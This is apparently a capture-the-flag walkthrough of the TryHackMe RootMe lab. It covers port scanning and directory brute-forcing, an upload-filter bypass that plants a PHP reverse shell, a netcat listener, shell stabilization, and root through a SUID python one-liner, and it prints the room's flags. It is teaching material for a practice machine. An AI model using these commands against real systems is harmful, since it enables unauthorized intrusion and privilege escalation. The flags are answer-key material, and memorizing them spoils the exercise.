



# TryHackMe RootMe Walkthrough | From Initial Recon to Root Access

TryHackMe’s [RootMe room](https://tryhackme.com/room/rrootme) is a beginner-friendly yet practical machine that walks through core penetration testing concepts: reconnaissance, web exploitation, reverse shells, and privilege escalation.

In this walkthrough, we’ll move from initial enumeration all the way to full root compromise while understanding the reasoning behind each step rather than blindly executing commands.

---

# Task 1: Deploy the Machine

The first step is simply deploying the target machine and ensuring connectivity through the TryHackMe VPN.

If you haven’t configured VPN access before, complete the OpenVPN setup room first.

No flag here—just environment setup.

---

# Task 2: Reconnaissance

As always, before attempting exploitation, we need visibility into the target surface.

The goal here is to identify exposed services, versions, and potentially hidden attack paths.

## Port Scanning with Nmap

We begin with a standard service/version scan.

### PAYLOAD

```bash
nmap -sC -sV <TARGET_IP>
```

### Why this?

* `-sC` runs Nmap’s default scripts for additional enumeration
* `-sV` detects service versions
* This gives us a fast initial assessment without being overly noisy

Example findings:

* Port 22 → SSH
* Port 80 → HTTP
* Apache version → 2.4.41

That confirms **2 open ports**.

---

## Directory Enumeration

A web server is exposed, so the next logical step is brute-forcing directories.

### PAYLOAD

```bash
gobuster dir -u http://<TARGET_IP> -w /usr/share/wordlists/dirb/common.txt
```

### Why this?

Web applications frequently expose hidden administrative panels, upload endpoints, backups, or development paths not linked from the main site.

Gobuster helps discover these quickly using wordlists.

This reveals:

```bash
/panel/
```

Which immediately looks interesting.



The `/panel/` endpoint exposes a file upload interface—often a strong indicator of potential remote code execution if upload validation is weak.

---

# Task 3: Getting a Shell

Now that we have an upload interface, the objective becomes turning file upload into code execution.

A common technique is uploading a PHP reverse shell.

## Preparing the Reverse Shell

We’ll use PentestMonkey’s well-known PHP reverse shell.

However, many applications block `.php` uploads directly.

A simple bypass here is changing the extension.

### PAYLOAD

```bash
cp reverseShell.php reverseShell.php5
```

### Why this works

Some upload filters only blacklist obvious extensions like:

```bash
.php
```

But Apache/PHP configurations may still interpret alternate extensions such as:

```bash
.php5
```

So the file executes as PHP despite bypassing simplistic validation.

---

## Start the Listener

Before triggering the payload, we need something waiting for the incoming connection.

### PAYLOAD

```bash
nc -nlvp 4444
```

### Why this?

This opens a Netcat listener:

* `-n` → no DNS lookup
* `-l` → listen mode
* `-v` → verbose
* `-p` → specify port

Port `4444` matches the reverse shell configuration.

---

## Trigger the Reverse Shell

Upload:

```bash
reverseShell.php5
```

Then navigate to:

```bash
/uploads/
```

and execute the uploaded shell.

Once triggered, the server connects back to our Netcat listener.

You now have command execution.

---

## Stabilizing the Shell

Reverse shells are usually unstable and awkward.

A proper pseudo-terminal makes life easier.

### PAYLOAD

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
```

### Why this?

This upgrades the shell into a more interactive terminal:

* cleaner command execution
* tab completion (sometimes)
* better handling of interactive programs

Without this, privilege escalation becomes frustrating.

---

## Locating user.txt

Now we search for the user flag.

### PAYLOAD

```bash
find / -type f -name "user.txt" 2>/dev/null
```

### Why this?

* `/` searches entire filesystem
* `-type f` limits to files
* `-name` targets the flag
* `2>/dev/null` suppresses permission errors

Result:

```bash
/var/www/user.txt
```

Read it:

### PAYLOAD

```bash
cat /var/www/user.txt
```

Flag:

```bash
THM{y0u_g0t_a_sh3ll}
```



At this point, we have initial foothold as a low-privileged user.

---

# Task 4: Privilege Escalation

The final objective is root access.

With a shell available, the first thing to inspect is unusual SUID binaries.

## Finding SUID Files

### PAYLOAD

```bash
find / -perm -4000 2>/dev/null
```

### Why this?

SUID binaries execute with the permissions of their owner.

If owned by root, exploiting one can instantly lead to privilege escalation.

Among the results:

```bash
/usr/bin/python
```

That is unusual.

---

## Why is Python Dangerous Here?

A SUID Python binary is highly risky because Python can directly invoke system calls and manipulate process privileges.

If Python runs with elevated permissions, we can instruct it to spawn a root shell.

---

## Exploiting SUID Python

### PAYLOAD

```bash
/usr/bin/python -c 'import os; os.setuid(0); os.setgid(0); os.execl("/bin/sh","sh","-p")'
```

### Payload Breakdown

**`os.setuid(0)`**

Sets user ID to root.

**`os.setgid(0)`**

Sets group ID to root.

**`os.execl("/bin/sh","sh","-p")`**

Launches a shell while preserving elevated privileges.

The `-p` flag prevents privilege dropping.

If successful:

```bash
whoami
```

returns:

```bash
root
```

Game over.

---

## Capturing root.txt

Search:

### PAYLOAD

```bash
find / -type f -name "root.txt" 2>/dev/null
```

Read:

### PAYLOAD

```bash
cat /root/root.txt
```

Flag:

```bash
THM{pr1v1l3g3_3sc4l4t10n}
```



---

# Final Flags

## User Flag

```bash
THM{y0u_g0t_a_sh3ll}
```

## Root Flag

```bash
THM{pr1v1l3g3_3sc4l4t10n}
```

---

# Key Takeaways

This room reinforces several practical offensive security concepts:

* Service enumeration is always the starting point
* Hidden web directories often reveal unexpected attack surfaces
* Weak upload validation can become remote code execution
* Reverse shell stabilization matters during post-exploitation
* Misconfigured SUID binaries are privilege escalation goldmines

RootMe is beginner-friendly, but the methodology reflects real-world penetration testing workflows.

Happy hacking ⚡
